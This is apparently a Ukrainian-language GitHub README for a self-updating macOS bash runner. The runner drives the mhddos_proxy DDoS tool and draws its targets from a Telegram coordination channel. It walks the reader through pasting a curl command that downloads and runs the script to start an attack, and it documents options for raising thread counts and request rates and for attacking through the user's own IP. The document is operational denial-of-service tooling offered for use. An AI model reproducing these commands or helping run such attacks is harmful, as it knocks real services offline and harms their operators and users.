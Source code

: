 # Опис auto_mhddos_mac

runner.sh - ПОВНІСТЮ АВТООНОВЛЮВАНИЙ (оновлює цілі та себе) bash-скрипт для Mac-машин, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy) та [proxy_finder](https://github.com/porthole-ascend-cinnamon/proxy_finder)    
Також він автоматично оновлює не лише свій скрипт та цілі, а й сам скрипт mhddos_proxy та proxy_finder   
Також скрипт імітує роботу людини (вимикає увесь ДДоС на 1-2 (рандомно) хвилин), щоб дати машині трохи відпочити
Скрипт розподіляє список машин по цілям: https://github.com/alexnest-ua/targets/blob/main/targets_linux  
  
[**Варіант для Windows**](https://github.com/alexnest-ua/runner_for_windows)  
[**Варіант для Linux**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/main)  
[**Варіант для Docker**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker)    
  
можете запускати цей скрипт на увесь день та йти по своїм справам - він сам буде брати актуальні цілі  

**якщо запускаєте цей скрипт - інші атаки через Python не запускайте, бо при рестарті він вбиває усі процеси старі процеси з mhddos_proxy (щоб старі атаки не накопичувалися)**

Канал, де координуються цілі: https://t.me/ddos_separ (звідти і беруться сюди цілі, тому якщо у вас на Mac запущено цей скрипт - то можете відповчивати, він все зробить за вас)  
чат де ви можете задати свої питання: https://t.me/+8swDHSe_ROI5MmJi  
також можете писати мені в особисті у телеграм, я завжди усім відповідаю: @brainqdead
  
Туторіал по створенню автоматичних та автономних Linux-серверів: https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c  

# Запуск скрипта
1) Заходимо в Launchpad, щоб відкрити термінал  
![image](https://user-images.githubusercontent.com/74729549/167318008-ec0e5caf-dc57-4d29-a352-8b41c49d4fe2.png)
2) Шукаємо terminal  
![image](https://user-images.githubusercontent.com/74729549/167318025-d7d89817-4e83-4118-8c35-fbf37e59fdea.png)
3) Запускаємо Термінал  
![image](https://user-images.githubusercontent.com/74729549/167318042-f892bec6-7a8b-4ad7-aed1-f625f2e92fd4.png)
4) Вводимо команду, яка сама завантантажить усе необхідне та запустить атаку (на початку можливо у вас попросить **ваш пароль**, та після цього натиснути Enter, щоб підтвердити встановлення потрібнго пакету (brew))
```shell
cd ~
curl -LO https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_mac/main/runner.sh && bash runner.sh
```
  
Буде запущено атаку з наступними параметрами за замовчуванням: threads=1500 rpc=1000 debug="" vpn=""(1500 потоків, 1000 запитів на проксі перед відправкою на ціль, без дебагу, без атаки через ваш ІР)
  
**!!!УВАГА!!!** runner.sh підтримує наступні параметри (САМЕ У ТАКОМУ ПОРЯДКУ ТА ЛИШЕ У ТАКІЙ КІЛЬКОСТІ(мінімум 2)), але можно і без них:  
curl -LO https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_mac/main/runner.sh && bash runner.sh [threads] [rpc] [debug] [vpn]  
- threads - кількість потоків (але не менше 1000, та не більше 3000)
- rpc - кількість запитів на проксі перед відправкою на ціль (але не менше 1000, та не більше 2500)
- debug - можливість дебагу (якщо хочете бачити повний інфу по атаці - у 4-ий параметр додайте --debug)
- vpn - використання вашого ІР у атаці разом з проксі

**ви можете змінювати параметри на будь-які інші значення, але я рекомендую саме ті, що за замовчуванням.**  
**також можете додавати **3-тим** параметром --debug, що слідкувати за ходом атаки, та **4-тим** параметром --vpn, щоб атакувати ще й через свій ІР разом з проксі**  
*наприклад команда з 2500 threads 2000 rpc дебагом та доп. атакою через ваш ІР*  
```shell
cd ~
curl -LO https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_mac/main/runner.sh && bash runner.sh 2500 2000 --debug --vpn
```

#test

